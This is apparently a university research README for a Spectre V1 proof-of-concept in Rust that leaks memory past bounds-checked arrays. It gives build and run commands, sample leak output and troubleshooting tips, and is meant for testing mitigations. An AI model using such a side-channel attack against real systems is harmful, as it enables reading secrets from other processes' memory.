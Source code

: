 # Spectre V1 Proof-of-Concept Attack in the Rust Language


## Introduction

In Rust We Trust?!?!

This repo implemented a working Spectre V1 for the Rust language. Using our Spectre V1 transient execution attack, the attack code is able to force a bounds-checked Rust array variable access to read any byte in the Rust application's memory. This attack should be of interest to Rust developers, since Rust is a memory-safe language, and this attack performs an arbitrary buffer overread, thereby demonstrating a vulnerability in Rusts' ability to stop memory access errors.

The developers of this attack PoC are big fans of Rust, it is truly a security-minded language with array bounds checking, integer overflow detection, etc... But 5 years after Spectre was disclosed it is still quite vulnerable to this attack and likely other microarchitectural attacks. The mission of this project is to create a reliable Spectre proof-of-concept attack that Rust compiler and runtime developers can utilize to test their mitigations.

This proof of concept attack has successfully run on a 13th-gen Core i7-13700H on Ubuntu 20.04 inside VirtualBox 7.0 on Windows 11. Built with rustc compiler version 1.73.0.

Spectre V1 is a difficult to stop buffer overread attack that plagues many of today's high-performance microprocessors, to learn more about this microarchitectural attack, please check out the [wiki page](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)).

## Prerequisites

You'll need to have the following:

  - rustc compiler based on LLVM
  - cargo Rust package manager
  - an x86-based out-of-order core running Linux (inside VirtualBox is fine)

## Building the attack application and running an attack experiment

To build the attack binary:
```
cargo build
```

To run an attack test:
```
cargo run
```

## Getting the Spectre V1 attack to work

Spectre attacks occur in the mispeculation stream of a high-performance processor, which has a lot of failure modes, so you may have to work through some adjustments to get the attack to work on your system. But when the attack is working it will look something like this:
```
Finished dev [optimized + debuginfo] target(s) in 0.01s
Running `target/debug/rust-spectre`
Distance to secret array = 46121323748004 (0x560a203f3ad0 -> 0x7ffc955d9574)
Running Spectre V1 attack tests...
Char: '~', Score: 284272, Sum: 166
Char: '~', Score: 286790, Sum: 0
Char: '~', Score: 284160, Sum: 166
Char: '~', Score: 278370, Sum: 0
Char: '~', Score: 286304, Sum: 166
Char: '~', Score: 286800, Sum: 0
Char: '~', Score: 276748, Sum: 166
Char: '~', Score: 291342, Sum: 0
Char: '~', Score: 293152, Sum: 166
Char: '~', Score: 274158, Sum: 0
Char: '~', Score: 270710, Sum: 166
Char: '~', Score: 282374, Sum: 0
Char: 'H', Score: 100996, Sum: 166
Char: 'e', Score: 102160, Sum: 0
Char: 'l', Score: 122062, Sum: 166
Char: 'l', Score: 117292, Sum: 0
Char: 'o', Score: 127474, Sum: 166
Char: ' ', Score: 129794, Sum: 0
 .
 .
 .
Char: 'l', Score: 95332, Sum: 0
Char: 'o', Score: 80862, Sum: 166
Char: ' ', Score: 80188, Sum: 0
Char: 'W', Score: 103408, Sum: 166
Char: 'o', Score: 93944, Sum: 0
Char: 'r', Score: 81772, Sum: 166
Char: 'l', Score: 96640, Sum: 0
Char: 'd', Score: 108080, Sum: 166
Char: ' ', Score: 84658, Sum: 0
Char: 'H', Score: 88134, Sum: 166
Char: 'e', Score: 100820, Sum: 0
Char: 'l', Score: 82778, Sum: 166
Char: 'l', Score: 86246, Sum: 0
Char: 'o', Score: 90166, Sum: 166
Char: ' ', Score: 89542, Sum: 0
Char: ' ', Score: 93434, Sum: 166
Char: ' ', Score: 79870, Sum: 0
Guessed secret = `~~,~~~~~~~~~Hello   Hello World Hello   Hello World Hello   '
NOTE: Required to stop dead code removal: Sum: 0
Final stats: 79.67% correct guesses. (239 out of 300 letters).
  (Note: random guessing of the string would have an accuracy of roughly: 0.39%)
```
This experiment worked and was able to achieve a 79.67% accuracy at accessing the entries in array SECRET[] from the bounds-checked Rust array ARR1[]. Also note that the success rate of just guessing letters would be no higher than 0.39%, so any accuracy much great than 1% indicates that Spectre V1 is working on the system running the attack program.

Note that there are many ways for this attack to fail: i) your system mitigates Spectre V1 (unlikely), ii) memory alignments do not allow the attack PoC to properly flush the cache and create enough delay for a successful speculative execution attack, or iii) system background executions are interferring with the branch-predictor and cache side channels. The attack code will detect if the attack is not working (with a low secret guess rate) and stop early, which will look like this:
```
Finished dev [optimized + debuginfo] target(s) in 0.00s
Running `target/debug/rust-spectre`
Distance to secret array = 46825600727508 (0x55677891dad0 -> 0x7ffde7de14a4)
Running Spectre V1 attack tests...
Char: '~', Score: 273206, Sum: 166
Char: '~', Score: 245110, Sum: 0
Char: '~', Score: 249758, Sum: 166
 .
 .
 .
Char: '~', Score: 257746, Sum: 0
Char: '~', Score: 250570, Sum: 166
Char: '/', Score: 260254, Sum: 0
Char: '~', Score: 235916, Sum: 166
Char: '~', Score: 228660, Sum: 0
Guessed secret = `~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~A~~~~~~~~,~~~~,A~~~~~~~~~/~~'
NOTE: Required to stop dead code removal: Sum: 0
This target mitigates Spectre V1 or memory alignment does not permit the attack, rebuild and rerun to attempt again...
```

If this occurs, rebuild and rerun the program 20 more times, if you don't see any successful infiltration of secret data, then the attack will not work on you system.

## Licensing Details

This attack code is made available for use under the [Apache License, version 2.0](https://www.apache.org/licenses/LICENSE-2.0) 

## Spectre V1 Attack PoC Authors

- Christopher Felix, University of Michigan
- Donayam Benti, University of Michigan
- [Todd Austin](https://www.linkedin.com/in/prof-todd-austin/), University of Michigan and Agita Labs, [@ToddMAustin](https://twitter.com/ToddMAustin)

And, thanks to the respective authors of the C++ Spectre V1 attacks that inspired this work.

